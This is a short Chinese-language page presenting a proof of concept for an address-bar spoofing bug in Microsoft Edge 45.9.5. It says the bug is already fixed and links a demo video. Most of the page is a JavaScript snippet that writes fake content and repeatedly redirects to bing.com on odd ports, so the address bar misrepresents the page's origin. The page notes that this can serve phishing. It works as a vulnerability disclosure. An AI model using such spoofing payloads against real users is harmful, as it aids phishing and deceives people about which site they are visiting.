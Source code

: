 # Microsoft Edge浏览器 45.9.5地址栏欺骗POC

可以用来钓鱼...不过目前已经被修复了。


```js
<script>
document.write("<h1>This is not Bing</h1>");
location.href = "https://bing.com:8081";
setInterval(function(){location.href="https://bing.com:8080";},7000);
</script>
```

PoC视频：https://video.twimg.com/ext_tw_video/1357095235218735105/pu/vid/720x1426/eRpfwsqsvDGapGry.mp4

via@rafaybaloch
